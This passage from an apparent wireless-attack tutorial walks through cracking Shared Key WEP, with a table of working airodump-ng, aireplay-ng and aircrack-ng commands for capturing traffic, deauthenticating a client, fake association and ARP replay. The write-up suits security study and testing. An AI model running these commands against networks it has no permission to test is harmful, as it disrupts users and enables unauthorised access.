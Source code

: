 
### Attacking Shared Key WEP

When Shared Key WEP is being used, the attacker must capture traffic resulting from a client joining the network which contains a PRGA file (`.xor`).  This PRGA file is used to create encrypted packets that can be injected into the network.

Use the following steps:

|Step|Command|
|-|-|
|Capture traffic|`airodump-ng -c 6 --bssid $AP -w wep-shared wlan0mon`|
|Deauth client to get a PRGA| `aireplay-ng --deauth 1 -a $AP -c $VIC wlan0mon`|
|Use PRGA to associate every 60 sec|`aireplay-ng -1 60 -e dlink123 -y <PRGA file> -a $AP - h $MON wlan0mon`|
|Replay captured ARP requests|`aireplay-ng --arpreplay -b $AP -h $MON wlan0mon`|
|Crack WEP key|`aircrack-ng wep-shared-01.cap`|

<br>

We use the PRGA to associate to the network every 60 seconds so we can send packets:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image029.png)<br><br>

Replaying the packet over and over makes the AP reply with a new IV:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image030.png)<br><br>

This allows us to capture thousands and thousands of new IVs:

![](images/A%20Review%20of%20Wireless%20Attack%20Techniques/image031.png)<br><br>

